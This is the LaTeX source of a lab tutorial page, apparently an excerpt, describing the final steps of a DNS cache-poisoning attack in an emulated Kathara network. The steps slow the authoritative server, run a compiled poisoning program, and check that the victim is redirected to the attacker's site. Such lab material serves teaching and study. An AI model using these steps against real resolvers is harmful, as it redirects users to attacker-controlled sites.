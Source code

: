 \documentclass[11pt,a4paper]{article}
\begin{document}
\newpage
\subsection{Final Steps}
\noindent
Before compiling and running the attack, however, there is one important step missing. We want to be sure to win the race condition against the real authoritative DNS. That's why we will cheat a little bit, by adding a delay to it:
\begin{lstlisting}
 <@\textcolor{codegray}{:>}@> kathara connect authoritative_dns  <@\textcolor{codegreen}{\# Connect to the authoritative DNS}@>
 <@\textcolor{codegray}{authoritative-dns :>}@> tc qdisc add dev eth0 root netem delay 1500ms    <@\textcolor{codegreen}{\# Add delay}@>
\end{lstlisting}
\noindent
Now that the probability of success has increased a lot, we can compile and run the attack:
\begin{lstlisting}
 <@\textcolor{codegray}{:>}@> kathara connect attacker  <@\textcolor{codegreen}{\# Connect to the attacker's machine}@>
 <@\textcolor{codegray}{attacker :>}@> g++ -o cache-poisoning /shared/cache-poisoning.cpp -ltins    <@\textcolor{codegreen}{\# Compile}@>
 <@\textcolor{codegray}{attacker :>}@> ./cache-poisoning    <@\textcolor{codegreen}{\# Run}@>
\end{lstlisting}

\noindent
Since we are guessing the Query ID, the probability of success is not 100\%.
To verify whether the attack was successful or not there are two main ways:
\begin{enumerate}
    \item check the cache of the recursive DNS. You should see an A record for \texttt{foo.example.com} mapped to \texttt{1.1.1.3}.
    \begin{lstlisting}
     <@\textcolor{codegray}{:>}@> kathara connect rec_dns  <@\textcolor{codegreen}{\# Connect to the recursive DNS}@>
     <@\textcolor{codegray}{dns :>}@> rndc dumpdb -cache && grep "example.com" /var/cache/bind/dump.db     
     
     [...]
     foo.<@\textcolor{red}{example.com}@>.  259172  A   1.1.1.3
     [...]\end{lstlisting}
     \item check the effect on the victim's side by using \textit{links}, a simple console browser:
     \begin{lstlisting}
     <@\textcolor{codegray}{:>}@> kathara connect victim  <@\textcolor{codegreen}{\# Connect to the victim's machine}@>
     <@\textcolor{codegray}{victim :>}@> links    <@\textcolor{codegreen}{\# Launch the browser}@>\end{lstlisting}
     Type \textbf{'g'} and search \texttt{'http://foo.example.com'}. You should be redirected to the attacker's website, as can be seen in Figure \ref{fig:attacker-website}.
\end{enumerate}
\end{document}
